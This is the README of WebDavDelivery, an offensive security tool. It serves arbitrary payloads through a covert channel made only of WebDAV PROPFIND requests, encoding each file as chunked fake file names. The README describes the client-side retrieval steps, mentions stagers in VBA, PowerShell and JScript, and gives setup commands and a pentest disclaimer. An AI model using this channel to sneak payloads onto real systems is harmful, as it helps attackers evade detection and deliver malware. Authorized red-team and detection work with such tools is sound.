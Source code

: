 WebDavDelivery
============
Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)


This tool is the server side of the WebDAV *PROPFIND only* requests **covert channel** used to deliver arbitrary files (*payloads, etc.*).

The tool is distributed under the terms of the [GPLv3 licence](http://www.gnu.org/copyleft/gpl.html).

Background information
----------------

Check this blog post on how and **why** I came up with the idea of using WebDAV PROPFIND only requests as a covert channel:

[Wordpress:Using WebDAV features as a covert channel](https://arno0x0x.wordpress.com/2017/09/07/using-webdav-features-as-a-covert-channel/)


Features
------------

WebDavDelivery features a pseudo WebDAV server, serving files from the `servedFiles`folder, by base64 encoding the file, then slicing it into 250 chars long chunks and deliver those chunks as a list of fake file names made of those chunks when listing a virtual directory composed of the real file name.

From the client side, the only thing you can do is browse directories and list their content. Say the WebDAV client wants to download a file named "binary_file.bin", all it has to do is
  1. Mount the share `\\webdavserver_ip_or_fqdn\binary_file.bin` (*eg on Windows:* `pushd \\webdavserver_ip_or_fqdn\binary_file.bin`)
  2. List the files in this directory (*eg on Windows:* `dir /b /a-d`)
  3. Concatenate all file names listed and perform some character sanitization (*essentially, replace '_' by '/' since this character is not suitable for a Windows file name*)
  4. Decode the base64 result --> you get the original file back


 Check the `stagers` directory as it contains some client side **examples** (*in VBA, PowerShell and JScript*) of how to use `webDavDelivery.py` to deliver various payloads. Just let your imagination tell you other fancy use cases of this tool :-).

How to use it
------------

Installation is pretty straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/WebDAVDelivery WebDAVDelivery`
* cd into the WebDAVDelivery folder: `cd WebDAVDelivery`
* Give the execution rights to the main script: `chmod +x webDavDelivery.py`

Then put all the files you want to serve in the `servedFiles` directory.

Eventually, start the pseudo-server: `./webDavDelivery.py`.

**Options**:

You can tell webDavDelivery to server only one single file, no matter what the directory requested by the client is:
	`./webDavDelivery.py -f some_file_path`

The `-v` flag makes webDavDelivery more verbose about the WebDAV traffic. This can help debugging.

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*